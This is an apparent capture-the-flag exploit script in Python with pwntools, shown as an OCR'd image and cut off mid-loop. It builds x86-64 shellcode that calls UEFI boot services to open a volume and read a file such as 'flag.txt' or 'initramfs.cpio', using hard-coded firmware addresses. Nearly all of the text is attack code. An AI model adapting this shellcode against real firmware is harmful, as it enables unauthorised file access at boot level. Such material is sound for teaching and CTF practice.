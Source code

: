 ```python
ia = lambda: io.interactive()
dbg = lambda text=None: gdb.attach(io, text)
lg = lambda s_name, s_val: print("\033[1;31;40m %s --> 0x%x \033[0m" % (s_name, s_val))
i2b = lambda c: str(c).encode()
u32_ex = lambda data: u32(data.ljust(4, b"\x00"))
u64_ex = lambda data: u64(data.ljust(8, b"\x00"))

base = 0x0000000028A7000
addr_SystemTable = base + 0x1BB50
addr_SimpleFile = base + 0x110
addr_ProtocolGuid = 0x28C2760
addr_Root = base + 0x210
addr_File = base + 0x290
addr_Path = base + 0x310
addr_Buf = 0x3E01010
addr_print = base + 0x1EE6
shellcode = """
// rbp = SystemTable->BootService
mov rax, [{pSystemTable}]
mov rbp, [rax + 0x60]
// LocateProtocol(...);
mov r8d, {pSimpleFile}
mov ecx, {pProtocolGuid}
xor edx, edx
xor eax, eax
mov ax, 0x140
add rax, rbp
call [rax]
// SimpleFile->OpenVolume(SimpleFile, &Root)
mov rbp, [r8]
mov rax, [rbp+8]
mov edx, {pRoot}
mov rcx, rbp
call rax
// Root->Open(Root, &File, "path", EFI_FILE_MODE_READ ,EFI_FILE_READ_ONLY);
mov r8d, {pRoot}
mov rbp, [r8]
xor r9d, r9d
mov r10d, r9d
inc r9d
mov edx, {pFile}
mov [rdx], r10
inc r10d
mov rcx, rbp
mov r8d, {pPath}
// L"flag.txt"
"""
path = b"initramfs.cpio\0"
utf16_path = b""
for c in path:
    utf16_path += bytes([c, 0])
for i in range(0, len(utf16_path), 8):
    b = utf16_path[i : i + 8]
    b += b"\0" * (8 - len(b))
    if i == 0:
        shellcode += """
        mov rbx, {}
        not rbx
        mov [r8], rbx
        """.format(hex(0xFFFFFFFFFFFFFFFF ^ u64(b)))
    else:
        shellcode += """
        mov rbx, {}
```
